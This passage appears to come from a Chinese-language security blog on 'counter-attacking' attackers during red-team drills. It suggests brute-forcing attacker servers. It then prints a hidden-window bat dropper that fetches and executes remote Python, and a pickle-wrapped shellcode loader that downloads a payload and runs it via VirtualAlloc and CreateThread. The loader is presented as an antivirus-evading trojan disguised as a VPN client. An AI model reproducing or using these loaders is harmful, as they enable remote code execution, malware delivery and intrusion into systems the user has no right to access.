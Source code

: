![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175352.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175353.png)  

这里有个反制的思路，就是通过主机信息可以看到该服务器开放了多个端口，有些攻击者会在自己服务器上搭建“灯塔”、“Awvs”、“Nessus”等扫描系统，这时候如果能通过口令枚举等途径获取到服务器权限，也是能够给防守进行加分的。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175354.png)

  

###

###  **钓鱼文件反制（一）**

攻击者通常都装有python、java等环境，cobalt strike有个钓鱼攻击模块（Scripted Web
Delivery），利用python语言可以做到免杀的效果，这个作者也很好奇为啥不会被查杀。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175355.png)  

写个bat脚本，然后将shell脚本命令写在里面，然后通过伪装一下诱导攻击者去点击（例如zip压缩包自解压执行）

  *   *   *   *   *   *   *   *   * 

    
    
    @echo off  
    if "%1"=="h" goto begin  
    Start mshta vbscript:createobject("wscript.shell").run("""%~nx0""h",0)(window.close)&&exit  
    :begin  
    python -c "import urllib2; exec urllib2.urlopen('http://ip:8090/a').read()

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175356.png)

  

###

###  **钓鱼文件反制（二）**

制作免杀exe木马，然后伪装成防守单位的远程vpn程序。

  

代码test1.py

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import pickle  import base64    
    shellcode = """  import ctypes,urllib.request,codecs,base64  shellcode = urllib.request.urlopen('http://ip/base64.txt').read()  shellcode = base64.b64encode(shellcode)  shellcode = base64.b64decode(shellcode)  shellcode = base64.b64decode(shellcode)  shellcode =codecs.escape\_decode(shellcode)\[0\]  shellcode = bytearray(shellcode)  \# 设置VirtualAlloc返回类型为ctypes.c\_uint64  ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c\_uint64  \# 申请内存  ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c\_int(0), ctypes.c\_int(len(shellcode)), ctypes.c\_int(0x3000), ctypes.c\_int(0x40))  \# 放入shellcode  buf = (ctypes.c\_char \* len(shellcode)).from\_buffer(shellcode)  ctypes.windll.kernel32.RtlMoveMemory(      ctypes.c\_uint64(ptr),      buf,      ctypes.c\_int(len(shellcode))  )  \# 创建一个线程从shellcode防止位置首地址开始执行  handle = ctypes.windll.kernel32.CreateThread(      ctypes.c\_int(0),      ctypes.c\_int(0),      ctypes.c\_uint64(ptr),      ctypes.c\_int(0),      ctypes.c\_int(0),      ctypes.pointer(ctypes.c\_int(0))  )  \# 等待上面创建的线程运行完  ctypes.windll.kernel32.WaitForSingleObject(ctypes.c\_int(handle),ctypes.c\_int(-1))"""    
    class A(object):      def \_\_reduce\_\_(self):          return (exec, (shellcode,))    
    ret = pickle.dumps(A())  ret\_base64 = base64.b64encode(ret)  print(ret\_base64)
